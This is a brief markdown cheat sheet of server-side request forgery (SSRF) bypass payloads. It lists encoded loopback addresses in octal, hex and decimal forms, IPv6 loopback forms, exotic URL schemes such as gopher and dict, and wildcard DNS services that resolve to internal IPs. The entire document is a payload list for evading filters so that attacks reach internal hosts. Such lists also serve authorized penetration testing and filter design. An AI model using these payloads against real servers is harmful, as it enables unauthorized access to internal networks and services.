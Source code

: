 ## SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io maps
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io
